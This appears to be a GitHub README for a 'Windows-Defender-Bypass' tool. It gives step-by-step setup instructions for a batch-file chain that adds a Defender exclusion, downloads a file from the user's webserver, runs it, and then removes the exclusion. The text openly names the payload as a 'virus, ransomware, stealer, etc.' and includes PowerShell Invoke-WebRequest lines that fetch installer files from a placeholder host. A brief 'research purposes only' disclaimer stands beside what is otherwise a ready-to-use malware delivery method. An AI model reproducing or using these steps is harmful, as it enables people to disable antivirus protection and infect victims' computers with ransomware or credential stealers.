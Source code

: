 # Windows-Defender-Bypass
Fully undetectable bypass for Windows Defender. Works by adding an exclusion for exe files, downloading your file and removing the exclusion after running the file.
# This project is intended for research purposes only.
# Setup
If you already have a webserver, skip to step 2.  
  
1, To start setting up the bypass, you will need a webserver, you can create one by heading over to https://replit.com and creating an HTML, CSS & JS repl, after that, you will need to run the repl. It should then open up a website preview and give you the webserver URL above it.  
  
2, Upload the file you wish to execute (virus, ransomware, stealer, etc) to the webserver and rename the file to installer.exe.  
  
3, Edit line 31 in the installer.bat file:  
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.exe' -OutFile installer.exe" # Change https://YOURSITE.COM/installer.exe to your webserver URL. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.exe
```
4, Upload the installer.bat to your webserver.
5, Edit line 4 in the main.bat file:
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.bat' -OutFile installer.bat" # Replace https://YOURSITE.COM/installer.bat with your webserver URL and the path to the installer.bat file. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.bat
```
6, Done. The file you would use to bypass windows defender would be main.bat. You can convert it to an executable but this will raise the number of detections. If this helped you, make sure to star this repository (;
